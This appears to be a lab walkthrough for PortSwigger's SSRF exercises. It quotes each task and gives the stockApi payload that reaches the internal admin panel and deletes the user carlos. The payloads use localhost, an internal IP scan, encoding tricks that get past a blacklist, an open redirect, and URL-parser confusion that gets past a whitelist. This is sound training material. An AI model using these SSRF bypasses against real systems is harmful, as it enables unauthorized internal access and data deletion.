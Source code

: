 ```
Lab: Basic SSRF against the local server

APPRENTICE

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos. 
```
```xml
stockApi=http://localhost/admin/delete?username=carlos
```
---
```
Lab: Basic SSRF against another back-end system

APPRENTICE

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, use the stock check functionality to scan the internal 192.168.0.X range for an admin interface on port 8080, then use it to delete the user carlos.
```

Use burp intruder :

```xml
stockApi=http%3A%2F%2F192.168.0.162%3A8080/admin/delete?username=carlos
```
---
```
Lab: SSRF with blacklist-based input filter

PRACTITIONER

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

The developer has deployed two weak anti-SSRF defenses that you will need to bypass. 
```

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery#bypass-using-rare-address

Use burp intruder :

- Double encode de "a" of admin
- Short-hanf IP addresses by dropping a zero

Final payload :
```
http://127.0.1/%2561dmin/delete?username=carlos
```
---
```
Lab: SSRF with filter bypass via open redirection vulnerability

PRACTITIONER

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://192.168.0.12:8080/admin and delete the user carlos.

The stock checker has been restricted to only access the local application, so you will need to find an open redirect affecting the application first. 
```
Payload :
```
stockApi=%2Fproduct%2FnextProduct%3FcurrentProductId%3D1%26path%3Dhttp://192.168.0.12:8080/admin/delete?username=carlos
```
---
```
Lab: SSRF with whitelist-based input filter

EXPERT

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

The developer has deployed an anti-SSRF defense you will need to bypass. 
```
interresting read :

https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf

Abusing URL Parser 

Payload :
```
stockApi=https://0a93000a0330d73580fbe49800f0009f.web-security-academy.net%2523@stock.weliketoshop.net/admin/delete?username=carlos
```
`Admin interface only available if logged in as an administrator, or if requested from loopback
So... use the loopback xD`

Payload :
```
stockApi=http://127.0.0.1:80%2523@stock.weliketoshop.net/admin/delete?username=carlos
```
---